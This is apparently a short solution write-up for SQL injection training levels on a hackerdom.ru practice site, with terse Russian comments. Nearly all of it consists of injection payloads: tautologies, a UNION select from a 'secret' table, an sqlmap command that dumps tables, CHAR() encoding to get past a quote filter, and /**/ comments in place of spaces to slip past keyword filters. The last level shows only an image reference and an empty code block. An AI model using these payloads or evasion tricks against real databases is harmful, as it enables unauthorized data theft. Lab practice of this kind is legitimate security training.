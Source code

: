 ### 1
```
SELECT * FROM users WHERE id=12
```
### 2
```
' or id=9 --'
```

### 3
```
' or id=13 -- 
```

### 4
```
' UNION select * from secret  -- 
```

### 5
```
sqlmap -u https://sql.training.hackerdom.ru/5sdfkjsdk.php?text= --random-agent -D sql_level5 --tables _t secrets --columns -dump

```

### 6

```
0 or login=CHAR(103,111,100) 

Нам запретили кавычки поэтому жостаем бога вот таким способом
```

### 7 
```
0/**/union/**/select/**/*/**/from/**/users/**/where/**/login/**/like/**/0x25676525

Запретили вообще всмеЁ поэтому выкручивемся, ибо пробелы можно записывать как /**/ 

```
ы
### 8 
Дальше прям душно.  ![](1.png) Вот пруфы, что дошел
```

```